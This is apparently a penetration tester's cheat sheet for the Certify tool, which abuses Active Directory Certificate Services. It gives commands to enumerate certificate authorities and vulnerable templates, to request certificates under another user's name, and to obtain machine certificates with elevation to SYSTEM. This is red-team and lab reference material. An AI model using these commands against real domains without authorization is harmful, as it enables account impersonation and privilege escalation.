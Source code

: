 # Certify

> C# tool for [[adcs|ADCS]] abuse.]

---

## Enumerate the Current Environment's Certificate Authorities (CAs)

```batch
Certify.exe cas
```

Also lists the names of each CAs' certificate templates.

---

## Enumerate the Current Environment's Certificate Templates

```batch
Certify.exe find
```

---

## Enumerate the Current Environment's "Vulnerable" Certificate Templates

```batch
Certify.exe find /vulnerable [/currentuser]
```

- Without `/currentuser`, `Certify.exe` will return certificate templates usable by default low-privilege groups
- With `/currentuser`, `Certify.exe` will return certificate templates usable by groups the current user is a part of

---

## Request a PEM User Certificate

```batch
Certify.exe request /ca:$CA_SPN /template:$TEMPLATE_NAME
```

- `$CA_SPN` example: `dc01.marvel.lab\ca-1`

---

## Request PEM User Certificate with Alternate Subject Name

```batch
Certify.exe request /ca:$CA_SPN /template:$TEMPLATE_NAME /altname:$USERNAME
```

- `$CA_SPN` example: `dc01.marvel.lab\ca-1`
- `$USERNAME`
	- Can be with or without the domain name

---

## Request a PEM Machine Certificate

```batch
Certify.exe request /ca:$CA_SPN /template:$TEMPLATE_NAME /machine
```

- `$CA_SPN` example: `dc01.marvel.lab\ca-1`
- According to RastaMouse, the `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account (for which you need to be running in high-integrity)

---

## References

[Certify GitHub Repository](https://github.com/GhostPack/Certify)

